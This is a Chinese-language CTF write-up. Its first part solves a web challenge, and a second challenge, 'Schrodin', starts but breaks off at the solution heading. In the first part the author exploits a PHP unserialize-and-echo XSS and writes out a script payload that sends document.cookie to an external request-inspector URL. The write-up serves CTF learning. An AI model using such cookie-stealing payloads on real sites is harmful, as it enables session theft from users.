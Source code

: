## 解题思路

那就扫目录呗，有git泄漏，提取一下：

```php
<?php
$a = unserialize($_GET['yds_is_so_beautiful']);
echo $a;  
```

有点谜，只有一个反序列化，但是没有魔术方法。应该不是反序列化漏洞，注意到反序列化之后会echo出来，可能会和XSS有关。试着alert一下，成功了，但是没有给Cookie。

然后看了提示，要把Cookie打出去，可能要读Cookie？试一试：

```php
serialize("<script>document.body.appendChild(document.createElement('img')).setAttribute('src','https://requestinspector.com/inspect/01e40wkvsk52d6dzx2axgggmqm?c='+document.cookie);</script>")
```

然后在Cookie里面找到了发回来的flag，有点迷。

## 备注

1. 还是思维僵化了，看到unserialize()就总想着反序列化漏洞。
2. 然后对于XSS还是不熟悉。

----

# Schrodin

## 题目描述

一眼看到一大段文字：

````
You can give a wibsite to this page and this page will automatically identify various parameters of the target and try to burst the password.

The longer the compute time is, the higher the success rate of the burst is.

But before the final result is checked, no one knows whether to burst out the password. We call it the superposition state of burst and unburst

You can check the progress at any time, but once you check the progress, this website will stop bursting and delete the relevant progress, which we call the collapse of the superposition state.

If the CPU of the server is idle, it must be able to burst out the password you want very soon :)

Enjoy it!
````

再下面是一个文本框和"Input"、"Check"两个按钮，然后显示了CPU利用率。

## 解题思路
